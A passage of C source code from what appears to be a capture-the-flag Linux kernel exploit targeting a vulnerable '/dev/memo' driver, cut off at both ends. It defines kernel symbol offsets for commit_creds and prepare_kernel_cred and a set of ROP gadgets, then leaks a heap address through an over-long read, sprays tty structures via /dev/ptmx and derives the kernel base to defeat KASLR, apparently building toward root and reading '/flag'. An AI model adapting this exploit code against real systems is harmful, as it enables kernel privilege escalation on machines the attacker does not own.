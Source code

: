 ```c
	if(result<=0){
		fail("mod_read failed!\n");
		exit(-1);
	}
}

size_t vmlinux_base = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t raw_do_tty_hangup = 0xffffffff8140f6b0; 
size_t raw_commit_creds = 0xffffffff8107b8b0; 
size_t raw_prepare_kernel_cred = 0xffffffff8107bb50;
size_t raw_regcache_mark_dirty = 0xffffffff81588fd0;
size_t raw_x64_sys_chmod = 0xffffffff8119fcd0;
size_t raw_msleep = 0xffffffff810c4740;

size_t raw_pop_rdi = 0xffffffff81001268; //pop rdi; ret;
size_t raw_pop_rdx = 0xffffffff81043137; //pop rdx; ret;
size_t raw_pop_rcx = 0xffffffff8104c852; //pop rcx; ret;
size_t raw_mov_rdi_rax = 0xffffffff810cecce; //mov rdi, rax; cmp r8, rdx; jne 0x2cecb3; ret; 
size_t raw_pop_rax = 0xffffffff81023301;//pop rax; ret;
size_t raw_mov_rdi_rbx = 0xffffffff827862bc; //mov rdi, rbx; call rax;
size_t raw_pop_rsi = 0xffffffff81001b79; //pop rsi; ret;
size_t raw_push_rax =  0xffffffff81022353;//push rax; ret;
size_t raw_pop_rdi_call = 0xffffffff81f234e2; //pop rdi; call rcx;

size_t base_add(size_t addr){
	return addr - raw_vmlinux_base + vmlinux_base;
}

int main(){
	
	char tmp_buf[0x3ff];
	struct skewBuf buf;
	int i;
	size_t rop[0x50];
	char* flag_str = "/flag";

	save_status();
       	size_t fd = open("/dev/memo",O_RDWR);
	if(fd == -1){
		fail("memo open failed!\n");
	}
	
	memset(tmp_buf,'A',sizeof(tmp_buf));
	mod_write(fd,tmp_buf,sizeof(tmp_buf));
	
	mod_read(fd,&buf,sizeof(buf));
	size_t heap_addr = buf.vec[0]-0x400;
	msg("leak heap addr: %p\n",(void*)heap_addr);

	size_t tty_fd = open("/dev/ptmx",O_RDWR|O_NOCTTY);
	if(tty_fd == -1){
		fail("ptmx open failed!\n");
	}
	
	mod_llseek(fd,0x3ff,0);
	mod_read(fd,&buf,sizeof(buf));
	size_t do_tty_hangup = buf.vec[0x4a];
	vmlinux_base = do_tty_hangup - raw_do_tty_hangup + raw_vmlinux_base;
	msg("do_tty_hangup addr: %p\n",(void*)do_tty_hangup);
	msg("vmlinux_base addr: %p\n",(void*)vmlinux_base);

	mod_llseek(fd,0x3ff,0);
```